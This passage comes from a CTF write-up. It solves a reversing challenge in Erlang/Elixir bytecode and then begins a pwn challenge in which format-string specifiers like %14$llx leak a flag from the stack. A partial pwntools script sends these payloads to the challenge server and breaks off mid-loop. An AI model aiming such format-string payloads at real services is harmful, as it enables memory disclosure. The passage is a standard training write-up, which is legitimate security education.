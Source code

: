 ```erlang
convert_input(_string@1) ->
    to_integer('Elixir.String':split('Elixir.String':trim(_string@1))).

main() -> main([]).

main(_args@1) ->
    print_flag(check(convert_input('Elixir.IO':gets(<<"How many bananas do I have?\n">>)))).

print_flag(false) -> 'Elixir.IO':puts(<<"Nope">>);
print_flag(true) ->
    'Elixir.IO':puts('Elixir.File':'read!'(<<"flag.txt">>)).

to_integer([_num@1, _string@1]) ->
    [erlang:binary_to_integer(_num@1), _string@1];
to_integer(_list@1) -> _list@1.
```

Althought I've never seen erlang code we see that there is a suspicious line where there is an operation made with `num@1` wich I guess is part of the input:

```erlang
    (_num@1 + 5) * 9 - 1 == 971;
```

it will return true only if the operation returns `971` so using my math super skills I reversed the equation and got `103`.
But using `103` as the input on the server doesn't work why?

Looking more closely to the code we see that the check is for `num@1` and `"bananas"`. So maybe my input as to be `103 bananas`...

Yes! That was it, using this input the server returns the flag

🏁 _actf{baaaaannnnananananas_yum}_{: .spoiler}

# Pwn

## queue

> _I just learned about stacks and queues in DSA!_<br>
> _nc challs.actf.co xxxxx_<br>
> _Attachments: queue_

Connecting to the challenge we are asked: `What did you learn in class today?` so we can send a string. We can submit a format string like `%p` to see that it returns `Oh nice, 0x7ffe79e8d120`. We can also access directly some parameters in this way:

`%<number_of_parameter>$<format>` for exemple: `%14$llx,%15$llx,%16$llx`; it returns:

`Oh nice, 3474737b66746361,75715f74695f6b63,615f74695f657565`.
We can see with some tries that the flag is here in the stack. So we can script the solution.

```python
from Crypto.Util.number import *
from pwn import *

flag = ""
host =  "challs.actf.co"
port = 31322
for i in range (14, 19, 1):
    r = remote(host, port)
    r.recvuntil(b'? ')
    payload = f'%{i}$llx,%{i+1}$llx'
    r.sendline(bytes(payload, 'utf-8'))
    r.recvuntil(b'Oh nice, ')
    stringa = r.recvline()
    stringa = stringa.decode('utf-8')
```